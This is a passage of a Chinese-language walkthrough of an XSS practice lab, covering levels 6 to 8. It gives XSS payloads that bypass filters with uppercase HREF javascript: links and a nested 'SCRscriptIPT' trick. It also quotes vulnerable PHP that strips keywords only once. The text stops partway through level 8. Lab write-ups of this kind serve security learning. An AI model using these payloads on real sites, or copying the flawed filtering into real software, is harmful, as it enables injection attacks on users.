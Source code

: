 解题思路3：利用 href 属性 + JS 伪协议，这里的 payload 同第五关，只不过把 href 改成大写而已：

```js
// 符号 "> 用于闭合 input 标签, 即构成 <input name="keyword" value="">
"> <a HREF=javascript:alert()>hack it</a>
```



## 第 07 关：仅替换一次关键字

在输入框直接注入 `<script>alert()</script>`，然后右击查看网页源代码，发现 <h2> 标签里面的内容被 HTML 实体化了，<input> 标签里 value 属性的部分内容有被替换过的痕迹，即关键字 script 被空字符替换掉了！

```html
<h2 align=center>没有找到和&lt;script&gt;alert()&lt;/script&gt;相关的结果.</h2><center>
```

```html
<input name=keyword  value="<>alert()</>">
```

根据之前的经验，盲猜后端程序员脑子emmmm....好吧盲猜后端用于关键字替换的代码存在逻辑问题，**即只替换一次关键字**，例如我们拟造一个 XSS payload 试试看：

```js
// 利用标签属性闭合 + JS注入: 符号 "> 用于闭合 input 标签, 即构成 <input name="keyword" value="">
// script被替换后，SCR 及 IPT 将构成新的 SCRIPT
"> <SCRscriptIPT>alert()</SCRscriptIPT>
```

啊哈！我们做到了！后端程序员脑子的确emmmm....，好吧，现在来一起看下后端用于关键字替换的代码吧：

代码审计：相比于上一关，尽管对前端拿到的数据进行了统一小写处理，避免了大小写绕过的可能，但是用于关键字替换的代码存在逻辑问题，**即只替换一次关键字**！

```html
$str =strtolower( $_GET["keyword"]);

$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);

echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<input name=keyword  value="'.$str6.'">
```



## ⭐️第 08 关：href 中可使用 HTML 实体

在输入框直接注入 `<script>alert('hi')</script>`，然后右击查看网页源代码，发现输入框 <input> 标签里面的内容被 HTML 实体化了，但是但是但是会发现单引号`'`没有被实体化！（但是依旧无法利用此漏洞来闭合绕过，因为属性 value 的闭合符号为双引号`"`）<a> 标签里 href 属性的内容有被替换过的痕迹！

```html
<input name=keyword  value="&lt;script&gt;alert('hi')&lt;/script&gt;">
<input type=submit name=submit value=添加友情链接 />
```
